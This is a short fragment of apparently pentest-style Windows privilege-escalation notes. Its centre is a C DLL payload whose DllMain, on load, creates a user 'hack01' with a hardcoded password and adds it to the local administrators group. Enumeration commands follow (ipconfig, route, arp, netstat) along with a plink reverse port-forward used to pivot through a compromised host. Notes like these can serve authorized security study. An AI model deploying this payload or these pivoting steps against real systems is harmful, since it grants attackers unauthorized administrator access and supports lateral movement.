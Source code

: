 ```bash

## check user, should be local administrator
net user hack01
```

exploit payload
```c
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>


int pwn()
{
        WinExec("C:\\Windows\\System32\\net.exe users hack01 Hack1234! /add", 0);
        WinExec("C:\\Windows\\System32\\net.exe localgroup administrators hack01 /add", 0);
        return 0;
}

BOOL APIENTRY DllMain(HMODULE hModule,
        DWORD  ul_reason_for_call,
        LPVOID lpReserved
)
{
        switch (ul_reason_for_call)
        {
        case DLL_PROCESS_ATTACH:
                pwn();
        case DLL_THREAD_ATTACH:
        case DLL_THREAD_DETACH:
        case DLL_PROCESS_DETACH:
                break;
        }
        return TRUE;
}
```


## Network info
+ network interface, routes, open ports
+ if target connected to multiple networks, could be used as a povit
+ investigate port binding on a loopback address
+ privileged program or service listening on the loopback interface
+ listening ports and connection to other users
+ specific virtual interfaces may indicate the existence of virtualization or antivirus software

### net basic

```bat
ipconfig /all

route print //network routing tables
route print -4
arp -A # arp缓存表

# -a, active tcp conn
# -n, display address and port in num
# -o, owner pid
netstat -ano

# Port forward using plink
plink.exe -l root -pw mysecretpassword 192.168.0.101 -R 8080:127.0.0.1:8080

# Port forward using meterpreter
```